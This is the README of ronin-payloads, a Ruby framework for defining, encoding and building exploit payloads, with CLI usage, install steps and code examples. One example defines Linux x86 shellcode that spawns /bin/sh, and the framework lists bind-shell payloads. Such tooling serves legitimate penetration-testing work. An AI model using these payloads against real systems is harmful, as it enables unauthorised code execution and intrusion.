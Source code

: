 # ronin-payloads

[![CI](https://github.com/ronin-rb/ronin-payloads/actions/workflows/ruby.yml/badge.svg)](https://github.com/ronin-rb/ronin-payloads/actions/workflows/ruby.yml)
[![Code Climate](https://codeclimate.com/github/ronin-rb/ronin-payloads.svg)](https://codeclimate.com/github/ronin-rb/ronin-payloads)

* [Website](https://ronin-rb.dev/)
* [Source](https://github.com/ronin-rb/ronin-payloads)
* [Issues](https://github.com/ronin-rb/ronin-payloads/issues)
* [Documentation](https://ronin-rb.dev/docs/ronin-payloads/frames)
* [Slack](https://ronin-rb.slack.com) |
  [Discord](https://discord.gg/6WAb3PsVX9) |
  [Twitter](https://twitter.com/ronin_rb)

## Description

ronin-payloads is a Ruby micro-framework for writing and running exploit
payloads.

## Features

* Allows defining Payloads as plain-Ruby Classes.
* Provides base classes for a variety of common payloads:
  * {Ronin::Payloads::Payload}
  * {Ronin::Payloads::BinaryPayload}
  * {Ronin::Payloads::ASMPayload}
  * {Ronin::Payloads::Nops}
  * {Ronin::Payloads::Shellcode}
  * {Ronin::Payloads::BindShell}
* Provides classes for various payload-encoding techniques.
* Allows adding additional encoders to payloads.

## Synopsis

List available payloads:

```shell
$ ronin-payloads
```

Print information about a payload:

```shell
$ ronin-payloads list -n NAME -v
```

Build and output a payload:

```shell
$ ronin-payload build NAME
```

Build and output a raw un-escaped payload:

 ```shell
$ ronin-payload build NAME --raw
```

Load a payload from a file, then build and output it:

```shell
$ ronin-payload build -f FILE
```

Generate a boilerplate payload file, with some custom information:

```shell
$ ronin-payloads gen example_payload.rb \
                     --name Example --arch i686 --os Linux \
                     --authors Postmodern --description "This is an example."
```

**Note:** The list of available payload templates are:

* `binary_payload`
* `shellcode`
* `nops`

## Examples

Define a `/bin/sh` shellcode payload:

```ruby
require 'ronin/payloads/shellcode'

class BinShShellcode < Ronin::Payloads::Shellcode

  register 'shellcode-linux-x86-bin-sh'
  version '0.5'
  description <<~DESC
    Shellcode that spawns a local /bin/sh shell
  DESC

  targets_arch :x86
  targets_os   'Linux'

  build do
    shellcode do
      xor   eax, eax
      push  eax
      push  0x68732f2f
      push  0x6e69622f
      mov   esp, ebx
      push  eax
      push  ebx
      mov   esp, ecx
      xor   edx, edx
      int   0xb
    end
  end

end
```

Define a payload encoder class:

```ruby
require 'ronin/encoders/encoder'

class Base64Encoder < Ronin::Encoders::Encoder

  register 'text-base64'

  description <<~DESC
    Example base64 payload encoder
  DESC

  targets_arch :x86
  targets_os   'Linux'

  def encode(data)
    data.to_s.base64_encode
  end

end
```

## Requirements

* [Ruby] >= 3.0.0
* [ronin-support] ~> 1.0
* [ronin-code-asm] ~> 1.0
* [ronin-post_ex] ~> 0.1
* [ronin-core] ~> 0.1
* [ronin-repos] ~> 0.1

## Install

```shell
$ gem install ronin-payloads
```

### Gemfile

```ruby
gem 'ronin-payloads', '~> 0.1'
```

### gemspec

```ruby
gem.add_dependency 'ronin-payloads', '~> 0.1'
```

## Development

1. [Fork It!](https://github.com/ronin-rb/ronin-payloads/fork)
2. Clone It!
3. `cd ronin-payloads/`
4. `bundle install`
5. `git checkout -b my_feature`
6. Code It!
7. `bundle exec rake spec`
8. `git push origin my_feature`

## License

Copyright (c) 2007-2013 Hal Brodigan (postmodern.mod3 at gmail.com)

ronin-payloads is free software: you can redistribute it and/or modify
it under the terms of the GNU Lesser General Public License as published
by the Free Software Foundation, either version 3 of the License, or
(at your option) any later version.

ronin-payloads is distributed in the hope that it will be useful,
but WITHOUT ANY WARRANTY; without even the implied warranty of
MERCHANTABILITY or FITNESS FOR A PARTICULAR PURPOSE.  See the
GNU Lesser General Public License for more details.

You should have received a copy of the GNU Lesser General Public License
along with ronin-payloads.  If not, see <https://www.gnu.org/licenses/>.

[Ruby]: https://www.ruby-lang.org
[ronin-support]: https://github.com/ronin-rb/ronin-support#readme
[ronin-code-asm]: https://github.com/ronin-rb/ronin-code-asm#readme
[ronin-core]: https://github.com/ronin-rb/ronin-core#readme
[ronin-repos]: https://github.com/ronin-rb/ronin-repos#readme
[ronin-post_ex]: https://github.com/ronin-rb/ronin-post_ex#readme
